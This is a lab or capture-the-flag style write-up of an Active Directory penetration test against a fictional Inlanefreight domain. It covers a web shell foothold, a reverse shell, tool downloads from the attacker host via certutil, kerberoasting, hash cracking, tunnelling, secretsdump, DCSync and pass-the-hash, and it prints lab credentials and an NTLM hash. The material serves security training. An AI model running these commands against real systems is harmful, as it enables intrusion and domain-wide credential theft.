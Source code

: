 # AD Enumeration & Attacks - Skills Assessment Part I

## Scenario

A team member started an External Penetration Test and was moved to  another urgent project before they could finish. The team member was  able to find and exploit a file upload vulnerability after performing  recon of the externally-facing web server. Before switching projects,  our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has  authorized us to see how far we can take our foothold and is interested  to see what types of high-risk issues exist within the AD environment.  Leverage the web shell to gain an initial foothold in the internal  network. Enumerate the Active Directory environment looking for flaws  and misconfigurations to move laterally and ultimately achieve domain  compromise.

------

# Writeup

- WEB-WIN01
- MS01
- DC01

## WEB-WIN01

First, the scenario description provided us an information about a webshell located in the `/upload` folder.

**Webshell URL:** http://10.129.202.242/uploads/antak.aspx

**Webshell login:** `admin:My_W3bsH3ll_P@ssw0rd!`

<img align="center" src="screenshots/webshell.png">

After login, we can get a reverse shell to the machine. I like to use [Villain](https://github.com/t3l3machus/Villain) to do this.

1. Use villain to generate the payload -> **generate payload=windows/reverse_tcp/powershell lhost=tun0 encode**

<img align="center" src="screenshots/villain_rev_shell.png">

2. Copy the payload, paste it into the webshell command execute, and shoot.

<img align="center" src="screenshots/send_villain_payload.png">

3. Receive the reverse shell.

<img align="center" src="screenshots/villain_got_shell.png">

With our reverse shell established, we can use the [Rubeus](https://github.com/CalegariMindSec/Privesc_scripts/blob/main/Windows_Privesc/ghostpack/Rubeus.exe) or [Invoke-Kerberoast](https://github.com/CalegariMindSec/Privesc_scripts/blob/main/Windows_Privesc/Invoke-Kerberoast.ps1) to do a kerberoasting on the machine, and then, use ssf to create a tunnel for internal network.

1. Use Rubeus or Invoke-Kerberoast to a kerberoating.

**NOTE:** We are interested in the account `svc_sql`, so we can do a kerberoasting specifying this user.

**Download files:**

```powershell
PS C:\users\administrator\Desktop> certutil.exe -urlcache -f http://10.10.14.135/Invoke-Kerberoast.ps1 Invoke-Kerberoast.ps1
PS C:\users\administrator\Desktop> certutil.exe -urlcache -f http://10.10.14.135/Rubeus.exe Rubeus.exe
PS C:\users\administrator\Desktop> certutil.exe -urlcache -f http://10.10.14.135/ssf-win-x86_64-3.0.0.zip ssf-win-x86_64-3.0.0.zip
```

**Invoke-Kerberoast:** 

```powershell
PS C:\users\administrator\Desktop> Import-Module .\Invoke-Kerberoast.ps1
PS C:\users\administrator\Desktop> Invoke-Kerberoast -Identity svc_sql
```

<img align="center" src="screenshots/invoke_kerberoast.png">

**Rubeus:** 

```powershell
PS C:\users\administrator\Desktop> .\Rubeus.exe kerberoast /user:svc_sql /nowrap
```

<img align="center" src="screenshots/rubeus.png">

2. Copy the hash, paste it in a file and use hashcat to crack the hash.

**Hashcat:**

```bash
hashcat -m 13100 kerberoasting_sql01.txt /usr/share/wordlists/rockyou.txt
```

<img align="center" src="screenshots/svc_sql_cracked.png">

**User :** `svc_sql:lucky7`

3. Use ssf to create a tunnel for internal network.

**SSF:**

```bash
On Target Machine (Windows): PS C:\users\administrator\Desktop\ssf-win-x86_64-3.0.0\ssf-win-x86_64-3.0.0> .\ssfd.exe -p 1234

On Attacker Machine (kali): └─$ ./ssf -D 1111 -p 1234 10.129.202.242

Proxychains4 Conf: socks4 127.0.0.1 1111
```

<img align="center" src="screenshots/tunnel_windows.png">

<img align="center" src="screenshots/tunnel_linux.png">

After creating the tunnel, we can use [NetExec](https://github.com/Pennyw0rth/NetExec) through proxychains4 to validate `svc_sql` credentials on the domain.

**Netexec:**

```bash
└─$ proxychains4 -q netexec smb 172.16.6.0/24 -u "svc_sql" -p "lucky7"
```

<img align="center" src="screenshots/netexec_svc_sql.png">

## MS01

With the tunnel created, we can check some permissions for user `svc_sql` on MS01.

**Netexec:**

```bash
└─$ proxychains4 -q netexec smb 172.16.6.50 -u "svc_sql" -p "lucky7" -X "whoami /groups"
```

<img align="center" src="screenshots/netexec_svc_check_perm.png">

As we know, user `svc_sql` is a local admin on MS01, so, we can use [impacket-secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) to dump credentials on it.

**Impacket-secretsdump:**

```bash
└─$ proxychains4 -q impacket-secretsdump 'inlanefreight.local/svc_sql:lucky7'@172.16.6.50
```

<img align="center" src="screenshots/secretsdump.png">

**User :** `tpetty:Sup3rS3cur3D0m@inU2eR`

## DC01

With user `tpetty`, we can use [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) to enumerate all the domain objects and see if we find something interesting. But first, we need to add the DC01 dns in `/etc/hosts`.

**Add DC01 in `/etc/hosts`:** 

```bash
└─# echo "172.16.6.3      DC01.INLANEFREIGHT.LOCAL" >> /etc/hosts
```

**Bloodhound-python:**

```bash
proxychains4 -q bloodhound-python -c ALL --zip -u "tpetty" -p "Sup3rS3cur3D0m@inU2eR" -d "INLANEFREIGHT.LOCAL" -dc DC01.INLANEFREIGHT.LOCAL -ns 172.16.6.3 --dns-tcp
```

<img align="center" src="screenshots/running_blodhoundpy.png">

After analyzing the file in bloodhound, we can find that the user `tpetty` has DCSync rights over the domain, so, we can abuse this to dump the "Administrator" hash and login on DC01 using PTH (Pass the Hash). 

**NOTE:** Dump can be done remotely using **NetExec** or **Impacket-secretsdump**.

**Netexec:**

```
└─$ proxychains4 -q netexec smb 172.16.6.3 -u "tpetty" -p "Sup3rS3cur3D0m@inU2eR" --ntds --user "Administrator"
```

<img align="center" src="screenshots/netexec_admin_dump.png">

**Impacket-secretsdump:**

```bash
└─$ proxychains4 -q impacket-secretsdump 'inlanefreight.local/tpetty:Sup3rS3cur3D0m@inU2eR'@172.16.6.3 -just-dc-user "Administrator"
```

<img align="center" src="screenshots/secretsdump_admin.png">

**Netexec - Check Administrator groups:**

```bash
└─$ proxychains4 -q netexec smb 172.16.6.3 -u "Administrator" -H "aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0" -X "whoami /groups"
```

<img align="center" src="screenshots/admin_pwned.png">